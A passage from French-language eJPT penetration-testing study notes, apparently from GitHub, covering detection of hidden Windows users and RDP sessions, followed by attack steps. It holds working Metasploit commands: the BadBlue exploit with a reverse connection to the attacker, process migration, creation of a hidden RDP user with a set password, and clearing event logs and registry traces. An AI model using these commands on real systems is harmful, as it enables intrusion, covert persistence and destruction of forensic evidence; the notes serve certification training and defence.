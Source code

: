
## 🛡️ 8. Détection et contre-mesures

### Détection côté défenseur
```cmd
# Lister tous les utilisateurs
net user
wmic useraccount list brief

# Vérifier groupes administrateurs
net localgroup Administrators

# Vérifier utilisateurs cachés
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList"

# Sessions RDP actives
quser
qwinsta

# Logs d'événements Windows
# Event ID 4720: Account created
# Event ID 4724: Password reset
# Event ID 4732: Member added to group
# Event ID 4648: Logon with explicit credentials
```

### Nettoyage des traces
```bash
# Dans Meterpreter
clearev                                 # Clear Event Logs

# Supprimer utilisateur
execute -f net -a "user alice /delete"

# Nettoyer registry
reg deleteval -k "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\SpecialAccounts\\UserList" -v alice
```

---

## 🎯 9. Cas d'usage spécifiques eJPT

### Scénario 1: BadBlue → User Persistence
```bash
# 1. Exploitation
use exploit/windows/http/badblue_passthru
set RHOSTS target; set LHOST attacker; exploit

# 2. Migration stabilité
ps -S explorer.exe
migrate <explorer_pid>

# 3. Création user caché + RDP
run getgui -e -u alice -p hack_123321

# 4. Test connexion RDP
xfreerdp /u:alice /p:hack_123321 /v:target /cert-ignore
```
